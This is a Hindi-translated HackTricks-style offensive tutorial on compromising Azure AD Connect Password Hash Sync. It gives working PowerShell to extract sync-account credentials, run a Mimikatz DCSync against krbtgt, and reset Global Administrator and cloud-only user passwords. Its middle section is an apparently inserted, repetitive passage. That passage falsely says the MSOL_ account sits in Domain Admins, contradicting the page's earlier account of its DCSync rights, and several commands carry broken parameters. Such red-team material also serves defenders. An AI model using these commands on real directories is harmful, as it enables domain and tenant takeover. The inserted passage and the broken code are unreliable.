 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization** एक साइन-इन विधि है जिसका उपयोग हाइब्रिड पहचान को पूरा करने के लिए किया जाता है। **Azure AD Connect** एक उपयोगकर्ता के पासवर्ड के हैश का हैश, एक ऑन-प्रिमाइसेस Active Directory इंस्टेंस से एक क्लाउड-आधारित Azure AD इंस्टेंस में सिंक्रनाइज़ करता है।

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

यह कंपनियों द्वारा ऑन-प्रिम AD को Azure AD के साथ सिंक्रनाइज़ करने के लिए उपयोग की जाने वाली **सबसे सामान्य विधि** है।

सभी **उपयोगकर्ता** और पासवर्ड हैश का **हैश** ऑन-प्रिम से Azure AD में सिंक्रनाइज़ होते हैं। हालाँकि, **स्पष्ट-पाठ पासवर्ड** या **मूल** **हैश** Azure AD को नहीं भेजे जाते हैं।\
इसके अलावा, **बिल्ट-इन** सुरक्षा समूह (जैसे डोमेन एडमिन्स...) Azure AD में **सिंक नहीं होते** हैं।

**हैश सिंक्रनाइज़ेशन** हर **2 मिनट** में होता है। हालाँकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **खाता** **समाप्ति** Azure AD में **सिंक नहीं होती** है। इसलिए, एक उपयोगकर्ता जिसका **ऑन-प्रिम पासवर्ड समाप्त हो गया है** (बदला नहीं गया है) पुराने पासवर्ड का उपयोग करके **Azure संसाधनों तक पहुंच** जारी रख सकता है।

जब कोई ऑन-प्रिम उपयोगकर्ता किसी Azure संसाधन तक पहुंचना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** जैसी सुविधाओं के लिए आवश्यक है **Identity Protection** और AAD Domain Services।

## Pivoting

जब PHS कॉन्फ़िगर किया जाता है तो कुछ **विशेषाधिकार प्राप्त खाते** स्वचालित रूप से **बनाए जाते हैं**:

* खाता **`MSOL_<installationID>`** ऑन-प्रिम AD में स्वचालित रूप से बनाया जाता है। इस खाते को **Directory Synchronization Accounts** भूमिका दी जाती है (देखें [प्रलेखन](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका अर्थ है कि इसमें **ऑन-प्रिम AD में प्रतिकृति (DCSync) अनुमतियाँ** हैं।
* एक खाता **`Sync_<name of on-prem ADConnect Server>_installationID`** Azure AD में बनाया जाता है। यह खाता **किसी भी उपयोगकर्ता का पासवर्ड रीसेट कर सकता है** (सिंक किया गया या केवल क्लाउड) Azure AD में।

पिछले दो विशेषाधिकार प्राप्त खातों के पासवर्ड **SQL सर्वर** में संग्रहीत होते हैं जहाँ **Azure AD Connect स्थापित है।** व्यवस्थापक उन विशेषाधिकार प्राप्त उपयोगकर्ताओं के पासवर्ड को स्पष्ट-पाठ में निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

संभव है कि एक तालिका से कॉन्फ़िगरेशन निकाला जाए, जिसमें एक एन्क्रिप्टेड हो:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्टेड है और इसमें ऑन-प्रिम AD में **`MSOL_*`** उपयोगकर्ता के पासवर्ड और AzureAD में **Sync\_\*** के पासवर्ड होते हैं। इसलिए, इन्हें समझौता करके AD और AzureAD में प्रिवेस्क करना संभव है।

आप इस टॉक में [इन क्रेडेंशियल्स को कैसे संग्रहीत और डिक्रिप्ट किया जाता है, इसका पूरा अवलोकन पा सकते हैं](https://www.youtube.com/watch?v=JEIR5oGCwdg)।

### **Azure AD connect server** ढूंढना

यदि **सर्वर जहाँ Azure AD connect स्थापित है** डोमेन से जुड़ा हुआ है (दस्तावेज़ों में अनुशंसित), तो इसे निम्नलिखित के साथ ढूंढना संभव है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* का दुरुपयोग

Azure AD Connect के साथ, एक MSOL\_\* खाता बनाया जाता है और इसे Domain Admins समूह में जोड़ा जाता है। यह खाता Azure AD Connect के लिए उपयोग किया जाता है ताकि यह सुनिश्चित किया जा सके कि पासवर्ड हैश सिंक (PHS) और अन्य कार्य सही ढंग से काम कर रहे हैं। इस खाते का दुरुपयोग करके, एक हमलावर Domain Admin अधिकार प्राप्त कर सकता है।

### पासवर्ड हैश सिंक (PHS)

PHS एक ऐसी प्रक्रिया है जिसमें ऑन-प्रिमाइसेस Active Directory (AD) से पासवर्ड हैश को Azure AD में सिंक किया जाता है। यह Azure AD को उपयोगकर्ताओं को प्रमाणित करने की अनुमति देता है, भले ही ऑन-प्रिमाइसेस AD उपलब्ध न हो। PHS को सक्षम करने के लिए, Azure AD Connect का उपयोग किया जाता है।

### PHS का दुरुपयोग

PHS का दुरुपयोग करने के लिए, एक हमलावर को Azure AD Connect सर्वर पर पहुंच प्राप्त करनी होगी। एक बार जब हमलावर को इस सर्वर पर पहुंच मिल जाती है, तो वे निम्नलिखित चरणों का पालन कर सकते हैं:

1. **Azure AD Connect सर्वर पर पहुंच प्राप्त करें**: हमलावर को पहले Azure AD Connect सर्वर पर पहुंच प्राप्त करनी होगी। यह विभिन्न तरीकों से किया जा सकता है, जैसे कि फ़िशिंग, सोशल इंजीनियरिंग, या अन्य तकनीकों का उपयोग करके।

2. **MSOL\_\* खाते की पहचान करें**: एक बार जब हमलावर को सर्वर पर पहुंच मिल जाती है, तो उन्हें MSOL\_\* खाते की पहचान करनी होगी। यह खाता आमतौर पर Domain Admins समूह में होता है।

3. **MSOL\_\* खाते का दुरुपयोग करें**: हमलावर MSOL\_\* खाते का उपयोग करके Domain Admin अधिकार प्राप्त कर सकते हैं। इसके लिए, वे इस खाते के क्रेडेंशियल्स को प्राप्त कर सकते हैं और फिर इनका उपयोग करके Domain Controller पर लॉगिन कर सकते हैं।

### निष्कर्ष

PHS और MSOL\_\* खाते का दुरुपयोग करके, एक हमलावर आसानी से Domain Admin अधिकार प्राप्त कर सकता है। इसलिए, यह महत्वपूर्ण है कि Azure AD Connect सर्वर को सुरक्षित रखा जाए और नियमित रूप से इसकी निगरानी की जाए।
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
आप इन क्रेडेंशियल्स को प्राप्त करने के लिए [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का भी उपयोग कर सकते हैं।
{% endhint %}

### Sync\_\* का दुरुपयोग

**`Sync_*`** अकाउंट से समझौता करके किसी भी उपयोगकर्ता (जिसमें Global Administrators भी शामिल हैं) का **पासवर्ड रीसेट** करना संभव है।
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह भी संभव है कि केवल **क्लाउड उपयोगकर्ताओं के पासवर्ड को संशोधित किया जाए** (भले ही वह अप्रत्याशित हो)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
It's also possible to dump the password of this user.

{% hint style="danger" %}
Another option would be to **assign privileged permissions to a service principal**, which the **Sync** user has **permissions** to do, and then **access that service principal** as a way of privesc.
{% endhint %}

### Seamless SSO

यह PHS के साथ Seamless SSO का उपयोग करना संभव है, जो अन्य दुरुपयोगों के लिए असुरक्षित है। इसे यहाँ देखें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
